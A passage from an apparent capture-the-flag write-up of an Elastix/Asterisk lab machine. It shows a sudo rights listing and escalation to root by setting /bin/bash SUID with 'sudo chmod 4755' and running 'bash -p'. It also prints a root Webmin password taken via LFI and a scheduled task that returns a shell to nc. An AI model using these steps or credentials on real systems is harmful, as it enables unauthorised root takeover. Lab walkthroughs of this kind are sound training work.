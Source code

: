     User asterisk may run the following commands on this host:
        (root) NOPASSWD: /sbin/shutdown
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/bin/yum
        (root) NOPASSWD: /bin/touch
        (root) NOPASSWD: /bin/chmod
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /sbin/service
        (root) NOPASSWD: /sbin/init
        (root) NOPASSWD: /usr/sbin/postmap
        (root) NOPASSWD: /usr/sbin/postfix
        (root) NOPASSWD: /usr/sbin/saslpasswd2
        (root) NOPASSWD: /usr/sbin/hardware_detector
        (root) NOPASSWD: /sbin/chkconfig
        (root) NOPASSWD: /usr/sbin/elastix-helper
    

`chmod` jumps out right away. I’ll pick a file, like `/bin/bash`, and set it
to SUID:

    
    
    bash-3.2$ ls -l /bin/bash
    -rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
    bash-3.2$ sudo chmod 4755 /bin/bash
    bash-3.2$ ls -l /bin/bash
    -rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
    

Now just run it (with `-p` to not drop privs) and get a root shell:

    
    
    bash-3.2$ bash -p
    bash-3.2# id
    uid=100(asterisk) gid=101(asterisk) euid=0(root)
    

## Webmin [Path #2]

Trying the username root with the passwords I collected from the LFI, I can
login to webmin with root / jEhdIekWmdjE. This interface is designed to
administer the machine, and has full root access:

![image-20210218143335619](https://0xdfimages.gitlab.io/img/image-20210218143335619.png)

Logged in here, I basically own the system. I can change passwords for any
user (see image above), schedule crons, install packages, or run commands as
any user.

I’ll create a task as root:

![image-20210218143717829](https://0xdfimages.gitlab.io/img/image-20210218143717829.png)

A minute later when it runs, a shell comes to `nc`:

    
    